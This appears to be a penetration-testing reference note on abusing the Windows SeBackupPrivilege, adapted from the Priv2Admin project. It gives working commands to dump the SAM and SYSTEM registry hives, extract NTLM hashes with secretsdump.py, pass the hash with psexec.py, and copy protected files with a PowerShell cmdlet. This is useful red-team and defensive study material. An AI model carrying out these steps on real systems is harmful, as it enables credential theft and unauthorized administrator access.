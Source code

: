 # SeBackupPrivilege

From [gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

| Privilege | Impact | Tool | Execution path | Remarks |
| --- | --- | --- | --- | --- |
|`SeBackup`| ***Admin*** | 3rd party tool <br><br> Sensitive files access (in combination with `SeRestore`): <br> ***Built-in commands*** | 1. Enable the privilege in the token <br><br> 2. Export the `HKLM\SAM` and `HKLM\SYSTEM` registry hives:<br> `cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"` <br><br> 3. Eventually transfer the exported hives on a controlled computer <br><br> 4. Extract the local accounts hashes from the export `SAM` hive. For example using `Impacket`'s `secretsdump.py` Python script: <br> `secretsdump.py -sam SAM -system SYSTEM LOCAL` <br><br> 5. Authenticate as the local built-in `Administrator`, or another member of the local `Administrators` group, using its `NTLM` hash (Pass-the-Hash). For example using `Impacket`'s `psexec.py` Python script: <br> `psexec.py -hashes ":<ADMINISTRATOR_NTLM>" <Administrator>@<TARGET_IP>` <br><br> Alternatively, can be used to read sensitive files with `robocopy /b` | - `User Account Control` may prevent Pass-the-Hash authentications with the local accounts but by default the built-in `Administrator` (RID 500) account is not concerned (as `FilterAdministratorToken` is disabled by default). <br><br> - Pass-the-Hash authentications can be attempted over (at least) the following services: `SMB` (port TCP 445), `SMB` over `NetBIOS` (port TCP 139), `WinRM` (ports TCP 5985 / 5986), or `RDP` if the `Restricted Admin` feature is enabled server side (port TCP 3389). <br><br> - Access to sensitive files may be more interesting if you can read `%WINDIR%\MEMORY.DMP`. <br><br> - `SeBackupPrivilege` is not helpful when it comes to open and write to files as it may only be used to copy files. <br><br> - Robocopy requires both `SeBackup` and `SeRestore` to work with the `/b` parameter (which are both granted to members of the `Backup Operators` group by default). <br> Instead, [`Copy-FileSeBackupPrivilege`](https://github.com/giuliano108/SeBackupPrivilege) can be used to backup files through a process with only the `SeBackup` privilege in its token: <br> `Import-Module .\SeBackupPrivilegeUtils.dll` <br> `Import-Module .\SeBackupPrivilegeCmdLets.dll` <br> `Set-SeBackupPrivilege` <br> `Copy-FileSeBackupPrivilege <SOURCE_FILE> <DEST_FILE>` |

Referenced in the table above is [giuliano108's SeBackupPrivilege PoC](https://github.com/giuliano108/SeBackupPrivilege) *"Use SE_BACKUP_NAME/SeBackupPrivilege to access objects you shouldn't have access to"*
```powershell
PS C:\scripts> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\scripts> Import-Module .\SeBackupPrivilegeCmdLets.dll
# Set privileges that have been disabled
PS C:\scripts> Set-SeBackupPrivilege
PS C:\scripts> Get-SeBackupPrivilege
# Copy hard to reach files
Copy-FileSeBackupPrivilege .\report.pdf c:\temp\x.pdf -Overwrite
```


## References

[gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)
[giuliano108's SeBackupPrivilege PoC](https://github.com/giuliano108/SeBackupPrivilege)